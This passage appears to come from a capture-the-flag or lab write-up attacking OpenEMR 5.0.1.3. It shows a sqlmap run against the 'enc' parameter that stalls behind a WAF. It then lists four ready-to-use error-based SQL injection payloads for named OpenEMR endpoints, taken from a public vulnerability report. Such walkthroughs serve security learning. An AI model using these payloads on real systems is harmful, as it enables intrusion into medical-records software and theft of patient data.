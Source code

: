 ```
you have not declared cookie(s), while server wants to set its own ('OpenEMR=b9g6um1rbhc...dmd5cln601'). Do you want to use those [Y/n] n
[21:52:08] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
[21:52:08] [INFO] testing if the target URL content is stable
[21:52:38] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[21:54:08] [CRITICAL] connection timed out to the target URL
[21:54:08] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] c
[21:54:24] [CRITICAL] can't check dynamic content because of lack of page content
[21:54:24] [INFO] heuristic (basic) test shows that GET parameter 'enc' might be injectable (possible DBMS: 'MySQL')
[21:54:24] [INFO] testing for SQL injection on GET parameter 'enc'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] n
[21:54:32] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:55:29] [WARNING] there is a possibility that the target (or WAF/IPS) is dropping 'suspicious' requests
[21:55:29] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[21:56:25] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[21:57:55] [CRITICAL] connection timed out to the target URL
[21:58:25] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[21:59:55] [CRITICAL] connection timed out to the target URL
[22:00:25] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[22:01:55] [CRITICAL] connection timed out to the target URL
[22:02:25] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
there seems to be a continuous problem with connection to the target. Are you sure that you want to continue? [y/N] N
[22:03:36] [ERROR] user quit
[22:03:36] [WARNING] you haven't updated sqlmap for more than 84 days!!!

[*] ending @ 22:03:36 /2020-07-14/
```

It's kinda working but pretty slow and unstable, so let's find another endpoint as it seems there
are many SQLi.

There is a document [OpenEMR v5.0.1.3 - Vulnerability Report](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf)
for exactly the same version as us. A dozen of SQLi are listed here.

```
portal/find_appt_popup_user.php?catid=1' AND (SELECT 0FROM(SELECT COUNT(*),CONCAT(@@VERSION,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- -

portal/add_edit_event_user.php?eid=1 AND EXTRACTVALUE(0,CONCAT(0x5c,VERSION()))

interface/forms/eye_mag/php/Anything_simple.php?display=i&encounter=1' AND (SELECT 0 FROM(SELECT COUNT(*),CONCAT(@@VERSION,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- -&category_name=POSTSEG

interface/forms_admin/forms_admin.php?id=32' OR (SELECT 0 FROM(SELECT COUNT(*),CONCAT(@@VERSION,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- -&method=enable

```